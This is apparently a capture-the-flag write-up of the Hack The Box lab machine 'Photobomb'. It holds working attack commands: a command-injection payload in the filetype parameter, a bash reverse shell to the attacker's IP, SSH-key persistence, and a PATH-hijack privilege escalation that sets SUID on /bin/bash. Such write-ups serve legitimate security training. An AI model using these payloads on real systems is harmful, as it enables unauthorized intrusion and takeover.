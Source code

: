```yaml
---
title: Photobomb
published: true
layout: post
---
```


<br />

---------------
Photobomb is an easy Linux machine where plaintext credentials are used to access an internal web application with a `Download` functionality that is vulnerable to a blind command injection. Once a foothold as the machine's main user is established, a poorly configured shell script that references binaries without their full paths is leveraged to obtain escalated privileges, as it can be ran with `sudo`. 
<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/NdROSd18zYU?si=BPr2eaJXlPYmwWQw" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------
<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />

Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.11.182 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.11.182 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```
<br />

There are **2 open ports**:
+ **22/tcp**
+ **80/tcp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.11.182 -p 22,80 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```
<br />

There are a lot of services that does not provide relevant information, but the ones that do are:
+ **22/tcp OpenSSH 8.2p1**
+ **80/tcp nginx 1.18.0**

<br />

We also find out a **hostname**, so let's add it:

```bash
echo '10.10.11.182 photobomb.htb' | sudo tee --append /etc/hosts
```
<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.11.182 -p 22,80 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```
<br />

This scan didn't return any relevant information.
<br />

------
<br />
### Foothold

When we visit the website, this is what it looks like:<br />

![](/assets/Photobomb/1.png)
<br />
<br />

When we click on ***click here!***, we are prompted for credentials by an **HTTP Basic Auth mechanism**, inspecting the source code of the website we can find a file named ***photobomb.js*** that contains credentials:

```JavaScript
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```
<br />

With this credentials we can login in the website, accessing **/printer**:<br />

![](/assets/Photobomb/2.png)
<br />
<br />

I couldn't find anything in the image metadata, so I started looking in the **request to download the image**:<br />

![](/assets/Photobomb/3.png)
<br />
<br />

We can try to **inject commands** in this parameters, luckily for us the **filetype parameter is vulnerable**:

```bash
photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg%3b+ping+-c+1+10.10.16.7&dimensions=30x20
sudo tcpdump -vvvXi tun0 icmp
```

![](/assets/Photobomb/4.png)
<br />
<br />

Great! We achieved command execution, let's send us a **reverse shell**, remember to set up the **listener**:

```bash
rlwrap nc -nlvp 4444
photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg%3b+/bin/bash+-c+'/bin/bash+-i+>%26+/dev/tcp/10.10.16.7/4444+0>%261'&dimensions=30x20
```

![](/assets/Photobomb/5.png)
<br />
<br />

Let's **connect via SSH** uploading our **public key**:

```bash
Victim> mkdir ~/.ssh
Victim> echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKpE4QtZoJ4GLwvKxM3BUvFKp/pI5lKsK34c+4m6AhZg tanades@kali' > ~/.ssh/authorized_keysç
Attacker> ssh wizard@photobomb.htb
```

![](/assets/Photobomb/6.png)
<br />
<br />

---
<br />

### Privilege Escalation

Let's enumerate what commands we can run as `sudo`:

```bash
sudo -l
```

![](/assets/Photobomb/7.png)
<br />
<br />

There's something special about this line, ***SETENV:*** is used to specify the **$PATH environmental variable** at the time of running `sudo`, let's inspect the script:

```bash
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
<br />

In this script, the `find` command is specified using a **relative path**, we can leverage this by creating a **find script** in our **home directory** and specify it as the **first path** in the $PATH environmental variable:

```bash
echo 'chmod u+s /bin/bash' > /home/wizard/find
chmod +x /home/wizard/find
sudo PATH=/home/wizard:$PATH /opt/cleanup.sh
```
<br />

Let's see if it has worked and escalate privileges:

```bash
ls -l /bin/bash
bash -p
```

![](/assets/Photobomb/8.png)
<br />
<br />
